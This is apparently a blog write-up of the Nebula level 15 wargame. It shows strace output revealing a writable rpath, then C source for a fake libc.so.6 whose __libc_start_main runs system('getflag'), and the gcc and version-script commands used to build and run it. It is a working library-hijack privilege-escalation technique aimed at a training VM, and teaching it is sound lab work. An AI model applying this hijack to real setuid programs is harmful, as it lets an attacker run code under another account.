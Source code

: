 ```yaml
---
layout: post
title: "Insecure Library Loading"
category: WarGame, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 15](http://exploit-exercises.com/nebula/level15) Agenda**: "[strace](http://linux.die.net/man/1/strace) the binary at "_/home/flag15/flag15_" and see if you spot anything out of the ordinary."

<center>
	<img src="/images/2015-07-04-insecure_library_loading/lmsxphiEcI1qblu4lo.jpg">
</center>
<br />
Starting from tracing:
{% highlight sh linenos %}
...
open("/var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/i686/sse2/cmov", 0xbf88db44) = -1 ENOENT (No such file or directory)
...
open("/var/tmp/flag15/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15", {st_mode=S_IFDIR|0775, st_size=3, ...}) = 0
open("/etc/ld.so.cache", O_RDONLY)      = 3
...
{% endhighlight %}
and what we can see is that the program tries to find and load "_libc.so.6_" via predefined set which was binded through the [rpath](https://en.wikipedia.org/wiki/Rpath) linker([ld](https://en.wikipedia.org/wiki/Linker_%28computing%29)) option. However, at the end it's succeeds with the cache (which in order contains the proper libc path). Hence, as we already know all lookup-cells we could try to hijack library with one.

As follows, starting with simple source with single "___attribute((constructor))_"(as testing initialization routine), after a facing with couple of relocation errors:
{% highlight sh linenos %}
symbol __libc_start_main, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
...
symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
...
no version information available (required by /home/flag15/flag15)
{% endhighlight %}
Reached the next outcome:
{% highlight c linenos %}
/* fake_lib.c */
#include <stdlib.h>
#include <stdio.h>

void __cxa_finalize(void * d) {return;}

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {

 printf("----------------------------------------------------------\n");
 system("getflag");
 printf("----------------------------------------------------------\n");

 exit(0);
}
{% endhighlight %}
To eliminate error with absent version information was used a version script(allows to explicitly control the symbols exported by a library):
{% highlight sh linenos %}
echo "GLIBC_2.0 {};" > fakelib.map
{% endhighlight %}
Copiled with static "_libC_" linking:
{% highlight sh linenos %}
gcc -shared -static-libgcc -fPIC -Wl,--version-script=fakelib.map,-Bstatic -o libc.so.6 fake_lib.c
{% endhighlight %}
and final cut... drum-roll, the climax - boom:
{% highlight sh linenos %}
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
----------------------------------------------------------
You have successfully executed getflag on a target account
----------------------------------------------------------
{% endhighlight %}

Resources:

 * [Program Library HOWTO, David A. Wheeler, v1.36, 15 May 2010](/resources/2015-07-04-insecure_library_loading/Program-Library-HOWTO.pdf)
 * [__libc_start_main -- initialization routine](http://refspecs.linuxbase.org/LSB_3.1.1/LSB-Core-generic/LSB-Core-generic/baselib---libc-start-main-.html)
 * [Linker Version Scripts](http://man7.org/conf/lca2006/shared_libraries/slide18c.html)